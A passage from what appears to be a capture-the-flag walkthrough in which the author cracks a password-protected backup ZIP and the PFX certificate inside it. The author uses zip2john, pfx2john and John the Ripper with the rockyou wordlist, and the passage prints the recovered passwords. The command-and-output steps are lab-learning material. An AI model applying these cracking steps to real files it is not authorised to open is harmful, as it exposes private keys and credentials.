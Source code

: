```bash
```
I found a backup file in Dev directory and I downloaded immedialty. It's obvious but it's password protected. Let's crack it. first we use `zip2john` to processe the input ZIP file into a format suitable for use with John The Ripper. 

# Let's do some password cracking

```bash
└─$ zip2john winrm_backup.zip > hashzip
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

`john --wordlist=~/Downloads/rockyou.txt hashzip`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2022-08-09 11:58) 1.428g/s 4962Kp/s 4962Kc/s 4962KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                  
```

Found password: `supremelegacy`. After unzipping it, I found an pfx file. 

The . pfx file, which is in a PKCS#12 format usually contains the SSL certificate (public keys) and the corresponding private keys. We need to extract the certificate and the key from it. For that we need the password. Luckly, we can crack it using John after proccessing it using pfx2john.  

```bash
pfx2john legacyy_dev_auth.pfx > hashpfx
```

Let's use John again. 

```bash
└─$ john --wordlist=~/Downloads/rockyou.txt hashpfx 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:58 DONE (2022-08-09 12:06) 0.01699g/s 54914p/s 54914c/s 54914C/s thuglife03282006..thscndsp1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we got the password which is `thuglegacy`.

